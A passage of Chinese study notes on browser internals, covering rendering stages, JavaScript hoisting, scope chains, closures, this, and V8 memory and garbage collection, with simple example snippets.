<br/>

**七、栅格化**

- 输入：图块
- 处理：合成线程会按照视口附近的图块来优先生成位图，实际生成位图的操作是由栅格化来执行的
- 输出：位图
- 位置：渲染进程栅格化的线程池，通常，栅格化过程都会使用 GPU 来加速生成，使用 GPU 生成位图的过程叫快速栅格化，或者 GPU 栅格化，生成的位图被保存在 GPU 内存中。

<br/>

<br/>

**八、合成和显示**

- 输入：位图
- 处理：合成线程发送绘制图块命令DrawQuad给浏览器进程，浏览器进程根据 DrawQuad 消息生成页面，并显示到显示器上。
- 输出：显示页面

<br>

**小结**

我们现在已经分析完了整个渲染流程，从 HTML 到 DOM、样式计算、布局、图层、绘制、光栅化、合成和显示。下面我用一张图来总结下这整个渲染流程：

<br/>

<br/>

- 渲染进程将 HTML 内容转换为能够读懂的DOM 树结构。
- 渲染引擎将 CSS 样式表转化为浏览器可以理解的styleSheets，计算出 DOM 节点的样式。
- 创建布局树，并计算元素的布局信息。
- 对布局树进行分层，并生成分层树。
- 为每个图层生成绘制列表，并将其提交到合成线程。
- 合成线程将图层分成图块，并在光栅化线程池中将图块转换成位图。
- 合成线程发送绘制图块命令DrawQuad给浏览器进程。
- 浏览器进程根据 DrawQuad 消息生成页面，并显示到显示器上。

<br>

# 浏览器中的JavaScript执行机制

<br/>

## 07丨变量提升：JavaScript代码是按顺序执行的吗？

### 为什么可以在定义之前使用变量或者函数？

因为变量提升——函数和变量在执行之前都提升到了代码开头。

下图模拟了变量提升的效果

<br/>

<br/>

### JavaScript 代码的执行流程

JavaScript 的执行机制：先编译，再执行。

JavaScript 代码执行过程中，需要先做变量提升，而之所以需要实现变量提升，是因为 JavaScript 代码在执行之前需要先编译。

在编译阶段，变量和函数会被存放到变量环境中，变量的默认值会被设置为 undefined；在代码执行阶段，JavaScript 引擎会从变量环境中去查找自定义的变量和函数。

<br/>

<br/>

从上图可以看出，输入一段代码，经过编译后，会生成两部分内容：执行上下文 和 可执行代码。

**执行上下文是 JavaScript 执行一段代码时的运行环境**，比如调用一个函数，就会进入这个函数的执行上下文，确定该函数在执行期间用到的诸如 this、变量、对象以及函数等。

在执行上下文中存在一个变量环境的对象（Viriable Environment），该对象中保存了变量提升的内容，比如上面代码中的变量 myname 和函数 showName，都保存在该对象中。

了解完变量环境对象，我们再结合下面这段代码来分析下是如何生成变量环境对象，并执行代码的。

```js
showName()
console.log(myname)
var myname = '极客时间'
function showName() {
    console.log('函数 showName 被执行');
}
```

编译阶段

- 第 1 行和第 2 行，由于这两行代码不是声明操作，所以 JavaScript 引擎不会做任何处理；
- 第 3 行，由于这行是经过 var 声明的，因此 JavaScript 引擎将在环境对象中创建一个名为 myname 的属性，并使用 undefined 对其初始化；
- 第 4 行，JavaScript 引擎发现了一个通过 function 定义的函数，所以它将函数定义存储到堆 (HEAP）中，并在环境对象中创建一个 showName 的属性，然后将该属性值指向堆中函数的位置。
- 如果在编译阶段，存在两个相同的函数，那么最终存放在变量环境中的是最后定义的那个，这是因为后定义的会覆盖掉之前定义的。
- 生成了变量环境对象后，接下来 JavaScript 引擎会把声明以外的代码编译为字节码，现在有了执行上下文和可执行代码了，那么接下来就到了执行阶段了。

执行阶段：JavaScript 引擎按照顺序一行一行地执行。

- 当执行到 showName 函数时，JavaScript 引擎便开始在变量环境对象中查找该函数，由于变量环境对象中存在该函数的引用，所以 JavaScript 引擎便开始执行该函数，并输出“函数 showName 被执行”结果。
- 接下来打印“myname”信息，JavaScript 引擎继续在变量环境对象中查找该对象，由于变量环境存在 myname 变量，并且其值为 undefined，所以这时候就输出 undefined。
- 接下来执行第 3 行，把“极客时间”赋给 myname 变量，赋值后变量环境中的 myname 属性值改变为“极客时间”

好了，以上就是一段代码的编译和执行流程。实际上，编译阶段和执行阶段都是非常复杂的，包括了词法分析、语法解析、代码优化、代码生成等，这些内容会在《14 | 编译器和解释器：V8 是如何执行一段 JavaScript 代码的？》那节详细介绍，在本篇文章中你只需要知道 JavaScript 代码经过编译生成了什么内容就可以了。


<br/>

## 08丨调用栈：为什么JavaScript代码会出现栈溢出？

上一节提到，当一段代码被执行时，JavaScript 引擎先会对其进行编译，并创建执行上下文。

哪些情况下代码才算是“一段”代码，才会在执行之前就进行编译并创建执行上下文。一般说来，有这么三种情况：

- 当 JavaScript 执行全局代码的时候，会编译全局代码并创建全局执行上下文，而且在整个页面的生存周期内，全局执行上下文只有一份。
- 当调用一个函数的时候，函数体内的代码会被编译，并创建函数执行上下文，一般情况下，函数执行结束之后，创建的函数执行上下文会被销毁。
- 当使用 eval 函数的时候，eval 的代码也会被编译，并创建执行上下文。

综上，每调用一个函数，JavaScript 引擎会为其创建执行上下文，并把该执行上下文压入调用栈，然后 JavaScript 引擎开始执行函数代码。

如果在一个函数 A 中调用了另外一个函数 B，那么 JavaScript 引擎会为 B 函数创建执行上下文，并将 B 函数的执行上下文压入栈顶。

当前函数执行完毕后，JavaScript 引擎会将该函数的执行上下文弹出栈。

现在你应该知道，调用栈，也叫执行上下文栈，是用来管理函数调用关系的一种数据结构，是 JavaScript 引擎追踪函数执行的一个机制，当一次有多个函数被调用时，通过调用栈就能够追踪到哪个函数正在被执行以及各函数之间的调用关系。

当分配的调用栈空间被占满时，会引发“堆栈溢出”问题。

<br/>

## 09丨块级作用域：var缺陷以及为什么要引入let和const？

由前文我们知道，正是由于 JavaScript 存在变量提升这种特性，从而导致了很多与直觉不符的代码，这也是 JavaScript 的一个重要设计缺陷。

虽然 ES6 已经通过引入块级作用域并配合 let、const 关键字，来避开了这种设计缺陷，但是由于 JavaScript 需要保持向下兼容，所以变量提升在相当长一段时间内还会继续存在。这也加大了你理解概念的难度，因为既要理解新的机制，又要理解变量提升这套机制，关键这两套机制还是同时运行在“一套”系统中的。

但如果抛开 JavaScript 的底层去理解这些，那么你大概率会很难深入理解其概念。俗话说，“断病要断因，治病要治根”，所以为了便于你更好地理解和学习，今天我们这篇文章会先“探病因”——**分析为什么在 JavaScript 中会存在变量提升，以及变量提升所带来的问题**；然后再来“开药方”——**介绍如何通过块级作用域并配合 let 和 const 关键字来修复这种缺陷**。

### 为什么在 JavaScript 中会存在变量提升

为什么 JavaScript 中会存在变量提升这个特性，而其他语言似乎都没有这个特性呢？要讲清楚这个问题，我们就得先从作用域讲起。

作用域是指在程序中定义变量的区域，该位置决定了变量的生命周期。通俗地理解，作用域就是变量与函数的可访问范围，即作用域控制着变量和函数的可见性和生命周期。

在 ES6 之前，ES 的作用域只有两种：全局作用域和函数作用域。

ES6 之前是不支持块级作用域的，因为当初设计这门语言的时候，并没有想到 JavaScript 会火起来，所以只是按照最简单的方式来设计。

没有了块级作用域，再把作用域内部的变量统一提升无疑是最快速、最简单的设计，不过这也直接导致了函数中的变量无论是在哪里声明的，在编译阶段都会被提取到执行上下文的变量环境中，所以这些变量在整个函数体内部的任何地方都是能被访问的，这也就是 JavaScript 中的变量提升。

### 变量提升所带来的问题

1. 变量容易在不被察觉的情况下被覆盖掉

```js
var myname = " 极客时间 "
function showName(){
  console.log(myname);
  if(0){
   var myname = " 极客邦 "
  }
  console.log(myname);
}
showName()
```

2. 本应销毁的变量没有被销毁

```js
function foo(){
  for (var i = 0; i < 7; i++) {
  }
  console.log(i);
}
foo()
```

### ES6 是如何解决变量提升带来的缺陷

为了解决这些问题，ES6 引入了 let 和 const 关键字，从而使 JavaScript 也能像其他语言一样拥有了块级作用域。

### JavaScript 是如何支持块级作用域的

我们已经知道 JavaScript 引擎是通过变量环境实现函数级作用域的，那么 ES6 又是如何在函数级作用域的基础之上，实现对块级作用域的支持呢？

其实，通过 let 声明的变量，在编译阶段会被存放到词法环境中，而不是变量环境中。

此外，在词法环境内部，维护了一个小型栈结构，栈底是函数最外层的变量，进入一个作用域块后，就会把该作用域块内部的变量压到栈顶；当作用域执行完成之后，该作用域的信息就会从栈顶弹出，这就是词法环境的结构。需要注意下，我这里所讲的变量是指通过 let 或者 const 声明的变量。

我们来看下面这段代码：

```js
function foo(){
    var a = 1
    let b = 2
    {
      let b = 3
      var c = 4
      let d = 5
      console.log(a)
      console.log(b)
    }
    console.log(b)
    console.log(c)
    console.log(d)
}
foo()
```

当执行到函数内代码块里面时，变量环境中 a 的值已经被设置成了 1，词法环境中 b 的值已经被设置成了 2，这时候函数的执行上下文就如下图所示：

<br/>

<br/>

从图中可以看出，当进入函数的作用域块时，作用域块中通过 let 声明的变量，会被存放在词法环境的一个单独的区域中，这个区域中的变量并不影响作用域块外面的变量，比如在作用域外面声明了变量 b，在该作用域块内部也声明了变量 b，当执行到作用域内部时，它们都是独立的存在。

再接下来，当执行到作用域块中的console.log(a)这行代码时，就需要在词法环境和变量环境中查找变量 a 的值了，具体查找方式是：沿着词法环境的栈顶向下查询，如果在词法环境中的某个块中查找到了，就直接返回给 JavaScript 引擎，如果没有查找到，那么继续在变量环境中查找。

如下图

<br/>

<br/>

**从上图你可以清晰地看出变量查找流程，不过要完整理解查找变量或者查找函数的流程，就涉及到作用域链了，这个我们会在下篇文章中做详细介绍。**

当作用域块执行结束之后，其内部定义的变量就会从词法环境的栈顶弹出，最终执行上下文如下图所示：

<br/>

<br/>

**通过上面的分析，想必你已经理解了词法环境的结构和工作机制，块级作用域就是通过词法环境的栈结构来实现的，而变量提升是通过变量环境来实现，通过这两者的结合，JavaScript 引擎也就同时支持了变量提升和块级作用域了。**

<br/>

## 10丨作用域链和闭包：代码中出现相同的变量，JavaScript引擎是如何选择的？

我们了解了作用域，了解了 ES6 是如何通过变量环境和词法环境来同时支持变量提升和块级作用域

接下来，还了解了如何通过词法环境和变量环境来查找变量，这其中，涉及到了作用域链

理解作用域链是理解闭包的基础，而闭包在 JavaScript 中几乎无处不在，同时作用域和作用域链还是所有编程语言的基础。所以，如果你想学透一门语言，作用域和作用域链一定是绕不开的。

本文先聊聊什么是作用域链，并通过作用域链再来讲讲什么是闭包。

### 什么是作用域链

其实在每个执行上下文的变量环境中，都包含了一个外部引用，用来指向外部的执行上下文，我们把这个外部引用称为outer。

当一段代码使用了一个变量时，JavaScript 引擎首先会在“当前的执行上下文”中查找该变量，如果在当前的变量环境中没有查找到，那么 JavaScript 引擎会继续在 outer 所指向的执行上下文中查找。

看下面的代码

```js
function bar() {
    console.log(myName)
}
function foo() {
    var myName = " 极客邦 "
    bar()
}
var myName = " 极客时间 "
foo()
```

当这段代码执行到 bar 函数内部时，其调用栈的状态图如下所示：

<br/>

<br/>

从图中可以看出，bar 函数和 foo 函数的 outer 都是指向全局上下文的，这也就意味着如果在 bar 函数或者 foo 函数中使用了外部变量，那么 JavaScript 引擎会去全局执行上下文中查找。我们把这个查找的链条就称为**作用域链**。

现在你知道变量是通过作用域链来查找的了，不过还有一个疑问没有解开，foo 函数调用的 bar 函数，那为什么 bar 函数的外部引用是全局执行上下文，而不是 foo 函数的执行上下文？

要回答这个问题，你还需要知道什么是**词法作用域**。这是因为在 JavaScript 执行过程中，其作用域链是由词法作用域决定的。

**词法作用域就是指作用域是由代码中函数声明的位置来决定的，所以词法作用域是静态的作用域，通过它就能够预测代码在执行过程中如何查找标识符**。

回到刚刚的问题，根据词法作用域，foo 和 bar 的上级作用域都是全局作用域，所以如果 foo 或者 bar 函数使用了一个它们没有定义的变量，那么它们会到全局作用域去查找。也就是说，**词法作用域是代码阶段就决定好的，和函数是怎么调用的没有关系**。

如果涉及到块级作用域，那该如何寻找变量呢？

同样，我们看一段代码

```js
function bar() {
    var myName = " 极客世界 "
    let test1 = 100
    if (1) {
        let myName = "Chrome 浏览器 "
        console.log(test)
    }
}
function foo() {
    var myName = " 极客邦 "
    let test = 2
    {
        let test = 3
        bar()
    }
}
var myName = " 极客时间 "
let myAge = 10
let test = 1
foo()
```

我们知道，ES6 是支持块级作用域的，当执行到代码块时，如果代码块中有 let 或者 const 声明的变量，那么变量就会存放到该函数的词法环境中。对于上面这段代码，当执行到 bar 函数内部的 if 语句块时，其调用栈的情况如下图所示：

<br/>

<br/>

### 什么是闭包？

理解了变量环境、词法环境和作用域链等概念，那接下来你再理解什么是 JavaScript 中的闭包就容易多了。

这里你可以结合下面这段代码来理解什么是闭包：

```js
function foo() {
    var myName = " 极客时间 "
    let test1 = 1
    const test2 = 2
    var innerBar = {
        getName:function(){
            console.log(test1)
            return myName
        },
        setName:function(newName){
            myName = newName
        }
    }
    return innerBar
}
var bar = foo()
bar.setName(" 极客邦 ")
bar.getName()
console.log(bar.getName())
```

根据词法作用域的规则，内部函数 getName 和 setName 总是可以访问它们的外部函数 foo 中的变量，所以当 innerBar 对象返回给全局变量 bar 时，虽然 foo 函数已经执行结束，但是 getName 和 setName 函数依然可以使用 foo 函数中的变量 myName 和 test1。所以当 foo 函数执行完成之后，其整个调用栈的状态如下图所示：

<br/>

<br/>

<br/>

<br/>

从上图可以看出，foo 函数执行完成之后，其执行上下文从栈顶弹出了，但是由于返回的 setName 和 getName 方法中使用了 foo 函数内部的变量 myName 和 test1，所以这两个变量依然保存在内存中。这像极了 setName 和 getName 方法背的一个专属背包，无论在哪里调用了 setName 和 getName 方法，它们都会背着这个 foo 函数的专属背包。

之所以是专属背包，是因为除了 setName 和 getName 函数之外，其他任何地方都是无法访问该背包的，我们就可以把这个背包称为 foo 函数的闭包。

好了，现在我们终于可以给闭包一个正式的定义了。

**在 JavaScript 中，根据词法作用域的规则，内部函数总是可以访问其外部函数中声明的变量，当通过调用一个外部函数返回一个内部函数后，即使该外部函数已经执行结束了，但是内部函数引用外部函数的变量依然保存在内存中，我们就把这些变量的集合称为闭包。比如外部函数是 foo，那么这些变量的集合就称为 foo 函数的闭包。**

那这些闭包是如何使用的呢？当执行到 bar.setName 方法中的myName = "极客邦"这句代码时，JavaScript 引擎会沿着“当前执行上下文–>foo 函数闭包–> 全局执行上下文”的顺序来查找 myName 变量，你可以参考下面的调用栈状态图：

<br/>

<br/>

理解什么是闭包之后，接下来我们再来简单聊聊闭包是什么时候销毁的。因为如果闭包使用不正确，会很容易造成内存泄漏的，关注闭包是如何回收的能让你正确地使用闭包。

通常，如果引用闭包的函数是一个全局变量，那么闭包会一直存在直到页面关闭；但如果这个闭包以后不再使用的话，就会造成内存泄漏。

如果引用闭包的函数是个局部变量，等函数销毁后，在下次 JavaScript 引擎执行垃圾回收时，判断闭包这块内容如果已经不再被使用了，那么 JavaScript 引擎的垃圾回收器就会回收这块内存。

所以在使用闭包的时候，你要尽量注意一个原则：**如果该闭包会一直使用，那么它可以作为全局变量而存在；但如果使用频率不高，而且占用内存又比较大的话，那就尽量让它成为一个局部变量。**

关于闭包回收的问题本文只是做了个简单的介绍，其实闭包是如何回收的还牵涉到了JavaScript 的垃圾回收机制，而关于垃圾回收，后续章节我会再为你做详细介绍的。

<br/>

## 11丨this：从JavaScript执行上下文的视角讲清楚this

先看一段代码

```js
var bar = {
    myName:"time.geekbang.com",
    printName: function () {
        console.log(myName)
    }
}
function foo() {
    let myName = " 极客时间 "
    return bar.printName
}
let myName = " 极客邦 "
let _printName = foo()
_printName()
bar.printName()
```

你已经知道了，在 printName 函数里面使用的变量 myName 是属于全局作用域下面的，所以最终打印出来的值都是“极客邦”。这是因为 JavaScript 语言的作用域链是由词法作用域决定的，而词法作用域是由代码结构来确定的。

不过按照常理来说，调用bar.printName方法时，该方法内部的变量 myName 应该使用 bar 对象中的，因为它们是一个整体，大多数面向对象语言都是这样设计的，JavaScript 是个例外。

**在对象内部的方法中使用对象内部的属性是一个非常普遍的需求**。

但是 JavaScript 的作用域机制并不支持这一点，基于这个需求，JavaScript 又搞出来另外一套this 机制。

接下来咱们就展开来介绍 this，不过在讲解之前，**希望你能区分清楚作用域链和this是两套不同的系统，它们之间基本没太多联系**。在前期明确这点，可以避免你在学习 this 的过程中，和作用域产生一些不必要的关联。

JavaScript 中的 this 是什么？

我们提到执行上下文中包含了变量环境、词法环境、外部环境，但其实还有一个 this 没有提及，具体你可以参考下图：

<br/>

<br/>

this 是和执行上下文绑定的，也就是说每个执行上下文中都有一个 this。

执行上下文主要分为三种——全局执行上下文、函数执行上下文和 eval 执行上下文，所以对应的 this 也只有这三种——全局执行上下文中的 this、函数中的 this 和 eval 中的 this。

eval 我们使用的不多，接下来我们就重点讲解下全局执行上下文中的 this和函数执行上下文中的 this。

全局对象中的 this 是指向 window 对象，默认情况下调用一个函数，其执行上下文中的 this 也是指向 window 对象的。

那能不能设置执行上下文中的 this 来指向其他对象呢？答案是肯定的。通常情况下，有下面三种方式来设置函数执行上下文中的 this 值。

1. 通过函数的 call 方法设置
2. 通过对象调用方法设置
3. 通过构造函数中设置

在使用 this 时，为了避坑，你要谨记以下四点：

- 当函数作为对象的方法调用时，函数中的 this 就是该对象；
- 当函数被正常调用时，在严格模式下，this 值是 undefined，非严格模式下 this 指向的是全局对象 window；
- 嵌套函数中的 this 不会继承外层函数的 this 值。
- 箭头函数没有自己的执行上下文，所以箭头函数的 this 就是它外层函数的 this。


<br/>

## 总结 - 浏览器中的JavaScript执行机制

本模块，我们将近一半的时间都是在谈 JavaScript 的各种缺陷。

JavaScript 的执行机制是先编译，后执行，编译时会做变量提升，变量提升这种特性导致了很多与直觉不符的代码，这是 JavaScript 的一个重要设计缺陷。

ES6 通过引入块级作用域并配合 let、const 关键字，来避开这种设计缺陷，但是由于 JavaScript 需要保持向下兼容，所以两套机制会同时存在。

具体 JavaScript 是通过变量环境和词法环境来同时支持变量提升和块级作用域。

JavaScript 引入词法环境，来支持块级作用域，所以到这里，执行上下文除了变量环境，新增了词法环境。

接下来，我们了解了如何通过词法环境和变量环境来查找变量，这其中，涉及到了作用域链

理解作用域链是理解闭包的基础，而闭包在 JavaScript 中几乎无处不在。

到这里，我们需要了解，执行上下文的变量环境中，有一个外部引用，用来指向外部的执行上下文，我们把这个外部引用称为outer。

当一段代码使用了一个变量时，JavaScript 引擎首先会在“当前的执行上下文”中查找该变量，如果在当前的变量环境中没有查找到，那么 JavaScript 引擎会继续在 outer 所指向的执行上下文中查找。

我们把这个查找的链条就称为作用域链。

而深入作用域链，我们还需要先了解词法作用域。通俗理解，词法作用域是代码阶段就决定好的，和函数是怎么调用的没有关系。

理解了变量环境、词法环境和作用域链等概念，那接下来你再理解什么是 JavaScript 中的闭包就容易多了。

闭包的定义是：在 JavaScript 中，根据词法作用域的规则，内部函数总是可以访问其外部函数中声明的变量，当通过调用一个外部函数返回一个内部函数后，即使该外部函数已经执行结束了，但是内部函数引用外部函数的变量依然保存在内存中，我们就把这些变量的集合称为闭包。

作用域链了解完毕，但新的问题也随之抛出。

在对象内部的方法中使用对象内部的属性是一个非常普遍的需求。

但是 JavaScript 的作用域机制并不支持这一点，基于这个需求，JavaScript 又搞出来另外一套this 机制。

需要特别注意的是，作用域链和this是两套不同的系统。

至此，执行上下文除了变量环境、词法环境、外部环境，还有最后一个成员——this出现了。

this 是和执行上下文绑定的，也就是说每个执行上下文中都有一个 this。

全局对象中的 this 是指向 window 对象，默认情况下调用一个函数，其执行上下文中的 this 也是指向 window 对象的。

我们重点了解如何设置执行上下文中的 this 来指向其他对象。此外，this 也存在一些缺陷，比如：

1. 嵌套函数中的 this 不会从外层函数中继承
2. 普通函数中的 this 默认指向全局对象 window

在使用 this 时，为了避坑，你要谨记以下四点：

- 当函数作为对象的方法调用时，函数中的 this 就是该对象；
- 当函数被正常调用时，在严格模式下，this 值是 undefined，非严格模式下 this 指向的是全局对象 window；
- 嵌套函数中的 this 不会继承外层函数的 this 值。
- 箭头函数没有自己的执行上下文，所以箭头函数的 this 就是它外层函数的 this。

虽然 JavaScript 存在各种缺陷，但我认为了解一门语言的缺陷并不是为了否定它，相反是为了能更加深入地了解它。我们在谈论缺陷的过程中，还结合 JavaScript 的工作流程分析了出现这些缺陷的原因，以及避开这些缺陷的方法。掌握了这些，相信你今后在使用 JavaScript 的过程中会更加得心应手。

<br>

# V8工作原理

<br/>

## 12丨栈空间和堆空间：数据是如何存储的？

接下来的三篇文章（数据在内存中的存放、JavaScript 处理垃圾回收以及 V8 执行代码）中，我们将通过内存机制的介绍，循序渐进带你走进 JavaScript 内存的世界。

JavaScript 是一种弱类型的、动态的语言。那这些特点意味着什么呢？

- 弱类型，意味着你不需要告诉 JavaScript 引擎这个或那个变量是什么数据类型，JavaScript 引擎在运行代码的时候自己会计算出来。
- 动态，意味着你可以使用同一个变量保存不同类型的数据。

JavaScript 中的数据类型一种有 8 种，它们分别是：

<br/>

<br/>

我们把前面的 7 种数据类型称为原始类型，把最后一个对象类型称为引用类型

其中，原始类型的数据是存放在栈中，引用类型的数据是存放在堆中的。

堆中的数据是通过引用和变量关联起来的。也就是说，JavaScript 的变量是没有数据类型的，值才有数据类型，变量可以随时持有任何类型的数据。

在 JavaScript 中将一个原始类型的变量 a 赋值给 b，那么 a 和 b 会相互独立、互不影响；但是将引用类型的变量 a 赋值给变量 b，那会导致 a、b 两个变量都同时指向了堆中的同一块数据。

这里有一个问题，为什么一定要分“堆”和“栈”两个存储空间呢？所有数据直接存放在“栈”中不就可以了吗？

答案是不可以的。这是因为 JavaScript 引擎需要用栈来维护程序执行期间上下文的状态，如果栈空间大了话，所有的数据都存放在栈空间里面，那么会影响到上下文切换的效率，进而又影响到整个程序的执行效率。比如一个函数执行结束了，JavaScript 引擎需要离开当前的执行上下文，只需要将指针下移到上个执行上下文的地址就可以了，该函数执行上下文栈区空间全部回收。

所以通常情况下，栈空间都不会设置太大，主要用来存放一些原始类型的小数据。而引用类型的数据占用的空间都比较大，所以这一类数据会被存放到堆中，堆空间很大，能存放很多大的数据，不过缺点是分配内存和回收内存都会占用一定的时间。

最后，我们站在内存模型的视角分析闭包的产生过程。

以第10节的一段代码为例：

```js
function foo() {
    var myName = " 极客时间 "
    let test1 = 1
    const test2 = 2
    var innerBar = {
        setName:function(newName){
            myName = newName
        },
        getName:function(){
            console.log(test1)
            return myName
        }
    }
    return innerBar
}
var bar = foo()
bar.setName(" 极客邦 ")
bar.getName()
console.log(bar.getName())
```

我们知道，当 foo 函数的执行上下文销毁时，由于 foo 函数产生了闭包，所以变量 myName 和 test1 并没有被销毁，而是保存在内存中，那么应该如何解释这个现象呢？

要解释这个现象，我们就得站在内存模型的角度来分析这段代码的执行流程。

1. 当 JavaScript 引擎执行到 foo 函数时，首先会编译，并创建一个空执行上下文。
2. 在编译过程中，遇到内部函数 setName，JavaScript 引擎还要对内部函数做一次快速的词法扫描，发现该内部函数引用了 foo 函数中的 myName 变量，由于是内部函数引用了外部函数的变量，所以 JavaScript 引擎判断这是一个闭包，于是在堆空间创建一个“closure(foo)”的对象（这是一个内部对象，JavaScript 是无法访问的），用来保存 myName 变量。
3. 接着继续扫描到 getName 方法时，发现该函数内部还引用变量 test1，于是 JavaScript 引擎又将 test1 添加到“closure(foo)”对象中。这时候堆中的“closure(foo)”对象中就包含了 myName 和 test1 两个变量了。
4. 由于 test2 并没有被内部函数引用，所以 test2 依然保存在调用栈中。

通过上面的分析，我们可以画出执行到 foo 函数中“return innerBar”语句时的调用栈状态，如下图所示：

<br/>

<br/>

从上图你可以清晰地看出，当执行到 foo 函数时，闭包就产生了；当 foo 函数执行结束之后，返回的 getName 和 setName 方法都引用“clourse(foo)”对象，所以即使 foo 函数退出了，foo执行上下文销毁了，foo函数中的对closure(foo)的引用也断开了，但是setName和getName里面又重新建立起来了对closure(foo)引用。所以在下次调用bar.setName或者bar.getName时，创建的执行上下文中就包含了“clourse(foo)”。

总的来说，产生闭包的核心有两步：第一步是需要预扫描内部函数；第二步是把内部函数引用的外部变量保存到堆中。

<br/>

## 13丨垃圾回收：垃圾数据是如何自动回收的？

JavaScript 的数据是如何回收的？

由于 JavaScript 数据是存储在栈和堆两种内存空间中的，所以接下来我们就来分别介绍“栈中的垃圾数据”和“堆中的垃圾数据”是如何回收的。

### 调用栈中的数据是如何回收的

先看下面这段代码：

```js
function foo(){
    var a = 1
    var b = {name:" 极客邦 "}
    function showName(){
      var c = " 极客时间 "
      var d = {name:" 极客时间 "}
    }
    showName()
}
foo()
```

执行到 showName 函数时，其调用栈就如下图所示。与此同时，还有一个记录当前执行状态的指针（称为 ESP），指向调用栈中 showName 函数的执行上下文，表示当前正在执行 showName 函数。

<br/>

<br/>

当一个函数执行结束之后，JavaScript 引擎会通过向下移动 ESP 来销毁该函数保存在栈中的执行上下文。

<br/>

<br/>

如图，当 showName 函数执行结束之后，ESP 向下移动到 foo 函数的执行上下文中，上面 showName 的执行上下文虽然保存在栈内存中，但是已经是无效内存了。比如当 foo 函数再次调用另外一个函数时，这块内容会被直接覆盖掉，用来存放另外一个函数的执行上下文。

### 堆中的数据是如何回收的

当上面那段代码的 foo 函数执行结束之后，ESP 应该是指向全局执行上下文的，那这样的话，showName 函数和 foo 函数的执行上下文就处于无效状态了，不过保存在堆中的两个对象依然占用着空间，如下图所示：

<br/>

<br/>

**要回收堆中的垃圾数据，就需要用到 JavaScript 中的垃圾回收器了。**

在正式介绍 V8 是如何实现回收之前，需要先学习下代际假说。

代际假说有以下两个特点：

- 第一个是大部分对象在内存中存在的时间很短，简单来说，就是很多对象一经分配内存，很快就变得不可访问；
- 第二个是不死的对象，会活得更久。

有了代际假说的基础，我们就可以来探讨 V8 是如何实现垃圾回收的了。

通常，垃圾回收算法有很多种，但是并没有哪一种能胜任所有的场景，你需要权衡各种场景，根据对象的生存周期的不同而使用不同的算法，以便达到最好的效果。

所以，在 V8 中会把堆分为**新生代和老生代**两个区域，**新生代中存放的是生存时间短的对象，老生代中存放的生存时间久的对象**。

新生区通常只支持 1～8M 的容量，而老生区支持的容量就大很多了。对于这两块区域，V8 分别使用两个不同的垃圾回收器，以便更高效地实施垃圾回收。

- 副垃圾回收器，主要负责新生代的垃圾回收。
- 主垃圾回收器，主要负责老生代的垃圾回收。

其实不论什么类型的垃圾回收器，它们都有一套共同的执行流程。

- 第一步是标记空间中活动对象和非活动对象。所谓活动对象就是还在使用的对象，非活动对象就是可以进行垃圾回收的对象。
- 第二步是回收非活动对象所占据的内存。其实就是在所有的标记完成之后，统一清理内存中所有被标记为可回收的对象。
- 第三步是做内存整理。一般来说，频繁回收对象后，内存中就会存在大量不连续空间，我们把这些不连续的内存空间称为内存碎片。当内存中出现了大量的内存碎片之后，如果需要分配较大连续内存的时候，就有可能出现内存不足的情况。所以最后一步需要整理这些内存碎片，但这步其实是可选的，因为有的垃圾回收器不会产生内存碎片，比如接下来我们要介绍的副垃圾回收器。

接下来，我们就按照这个流程来分析新生代垃圾回收器（副垃圾回收器）和老生代垃圾回收器（主垃圾回收器）是如何处理垃圾回收的。

**副垃圾回收器**

副垃圾回收器主要负责新生区的垃圾回收。新生区的对象，特点是对象小，但垃圾回收频繁。

新生代中用Scavenge 算法来处理。所谓 Scavenge 算法，是把新生代空间对半划分为两个区域，一半是对象区域，一半是空闲区域，如下图所示：

<br/>

<br/>

新加入的对象都会存放到对象区域，当对象区域快被写满时，就需要执行一次垃圾清理操作。

垃圾回收过程，先对对象区域中的垃圾做标记，然后将存活的对象复制到空闲区域，同时会把这些对象有序排列起来，相当于完成了内存整理操作。

然后，对象区域与空闲区域进行角色翻转，这样就完成了垃圾对象的回收操作，同时这种角色翻转的操作还能让新生代中的这两块区域无限重复使用下去。

Scavenge 算法的问题：

1. 复制对象需要时间，所以新生区的空间会被设置得比较小。
2. 正因为新生区的空间不大，所以很容易被存活的对象装满整个区域。为了解决这个问题，JavaScript 引擎采用了对象晋升策略，也就是经过两次垃圾回收依然还存活的对象，会被移动到老生区中。

**主垃圾回收器**

主垃圾回收器主要负责老生区中的垃圾回收。除了新生区中晋升的对象，一些大的对象会直接被分配到老生区。

因此老生区中的对象有两个特点，一个是**对象占用空间大**，另一个是**对象存活时间长**。

由于老生区的对象比较大，Scavenge 算法不适用，所以采用**标记 - 清除**的算法进行垃圾回收的。

见下图：

<br/>


<br/>

**垃圾回收带来的性能问题**

V8 是使用副垃圾回收器和主垃圾回收器处理垃圾回收的，不过由于 JavaScript 是运行在主线程之上的，一旦执行垃圾回收算法，都需要将正在执行的 JavaScript 脚本暂停下来，待垃圾回收完毕后再恢复脚本执行。我们把这种行为叫做全停顿。

老生代造成的全停顿影响很大，会使得应用的性能和响应能力都会直线下降。

为了降低老生代的垃圾回收而造成的卡顿，V8 将标记过程分为一个个的子标记过程，同时让垃圾回收标记和 JavaScript 应用逻辑交替进行，直到标记阶段完成，我们把这个算法称为增量标记（Incremental Marking）算法。如下图所示：

<br/>

<br/>

使用增量标记算法，可以把一个完整的垃圾回收任务拆分为很多小的任务，这些小的任务执行时间比较短，可以穿插在其他的 JavaScript 任务中间执行，这样当执行上述动画效果时，就不会让用户因为垃圾回收任务而感受到页面的卡顿了。

<br/>

## 14丨编译器和解释器：V8是如何执行一段JavaScript代码的？

首先我们介绍编译器和解释器的区别。

之所以存在编译器和解释器，是因为机器不能直接理解我们所写的代码，所以在执行程序之前，需要将我们所写的代码“翻译”成机器能读懂的机器语言。

**编译型语言在程序执行之前，需要经过编译器的编译过程，并且编译之后会直接保留机器能读懂的二进制文件，这样每次运行程序时，都可以直接运行该二进制文件，而不需要再次重新编译了。**

**而由解释型语言编写的程序，在每次运行时都需要通过解释器对程序进行动态解释和执行。**

那编译器和解释器是如何“翻译”代码的呢？具体流程你可以参考下图：

<br/>

<br/>

接下来，我们来看看 V8 如何执行一段 JavaScript 代码。

具体操作是：V8 依据 JavaScript 代码生成 AST 和执行上下文，再基于 AST 生成字节码，然后通过解释器执行字节码，通过编译器来优化编译字节码。

<br/>

<br/>

从图中可以清楚地看到，V8 在执行过程中既有解释器 Ignition，又有编译器 TurboFan，那么它们是如何配合去执行一段 JavaScript 代码的呢? 下面我们就按照上图来一一分解其执行流程。

1. 生成抽象语法树（AST）和执行上下文

